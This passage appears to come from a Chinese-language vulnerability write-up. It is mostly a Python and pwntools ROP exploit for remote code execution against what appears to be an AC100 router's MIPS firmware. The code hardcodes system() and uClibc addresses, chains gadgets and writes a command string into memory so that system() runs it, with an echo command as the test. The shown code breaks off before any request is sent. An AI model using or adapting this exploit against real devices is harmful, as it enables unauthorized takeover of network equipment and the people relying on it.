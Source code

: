 而后，利用 gadget1、3，构造一个使 $a0 赋值为 string_addr 并最终触发 system 函数的 gadget

构造完毕后，尝试运行 `echo leeya_bug-hacked!` 这条 linux 命令看看是否成功  
最后 Payload:

```py
import requests
from pwn import *

def Vul4_AC100(host: str) -> None:
	'''
	RCE
	Requirement: Authorized
    by leeya_bug
	'''
	import requests

	system_addr			= 0x2B4002F0
	uClibc_main_addr	= 0x2B2B2550
	string_addr			= 0x0047C010

	gadget_jalr_addr	= system_addr - 0x2fc
	# 0x2B2B2550 		是 __uClibc_main 的起始地址
	# 0x68				是 __uClibc_main 起始至 __uClibc_main 末尾指令 jr $t9 的距离
	# 0x65B8 - 0x4E04	是 __uClibc_main 中指令 jr $t9 至 gadget 起始距离
	gadget_addr 		= uClibc_main_addr + 0x68 - (0x65B8 - 0x4E04)
	gadget_write_addr	= system_addr - (0x000502F0 - 0x00028810)
	

	def write_string_at(string, offset, jump_to=gadget_addr):
		# gadget 1, 2
		data0 = b''
		data0 += b'A' * 0x1c								# stack padding, register padding
		data0 += string.encode()							# s1 
		data0 += p32(0x80f0f0f0) 							# s2 
		data0 += p32(0x7f0f0f0f + 1 + string_addr + offset) # s3 
		data0 += b'A' * 16									# register padding
		data0 += p32(jump_to)								# fp, return addr of gadget 2 
		data0 += p32(gadget_write_addr) 					# ra, return addr of gadget 1
		return data0

	data0 = b''
	data0 += b'A' * 248									# stack padding, register padding
	data0 += p32(gadget_addr)							# return

	data0 += write_string_at('echo', 0)
	data0 += write_string_at(' lee', 4)
	data0 += write_string_at('ya_b', 8)
	data0 += write_string_at('ug-h', 12)
	data0 += write_string_at('acke', 16)
	data0 += write_string_at('d!  ', 20, jump_to=gadget_addr)

	# gadget 1
	data0 += b'A' * 24									# stack padding 
	data0 += b'\x01' * 4 								# s0 
	data0 += b'\x01' * 4								# s1 
	data0 += b'\x02' * 4 								# s2 
	data0 += b'\x03' * 4 								# s3 
	data0 += b'\x04' * 4 								# s4 
	data0 += b'\x05' * 4						 		# s5 
	data0 += b'\x06' * 4 								# s6 
	data0 += (system_addr).to_bytes(4, 'little') 		# s7 
	data0 += b'\x08' * 4 								# fa 
	data0 += (gadget_jalr_addr).to_bytes(4, 'little') 	# return 

```